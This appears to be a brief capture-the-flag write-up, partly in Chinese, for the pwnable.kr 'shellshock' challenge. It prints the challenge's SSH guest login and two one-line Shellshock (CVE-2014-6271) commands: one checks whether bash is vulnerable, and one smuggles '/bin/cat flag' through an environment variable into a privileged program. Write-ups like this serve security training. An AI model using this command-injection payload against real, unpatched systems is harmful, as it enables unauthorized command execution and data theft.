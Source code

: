 ```yaml
---
layout:     post
title:      pwnable shellshock
author:     wooy0ung
tags: 		pwn
category:  	writeup
---
```



>Problem Address:  
>http://pwnable.kr/  
>  
>Problem Description:  
>Mommy, there was a shocking news about bash.  
>I bet you already know, but lets just make it sure :)  
>Address:  
>ssh shellshock@pwnable.kr -p2222 (pw:guest)  
<!-- more -->


### 0x00 exploit

CVE-2014-6271 破壳漏洞利用, 先检验漏洞是否存在

```
$ env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
```

![](/assets/img/writeup/pwn/2017-08-27-pwnable-shellshock/0x00.png)

构造一下利用

```
$ env x='() { :;}; /bin/cat flag' bash -c "./shellshock"
```

getflag~

![](/assets/img/writeup/pwn/2017-08-27-pwnable-shellshock/0x01.png)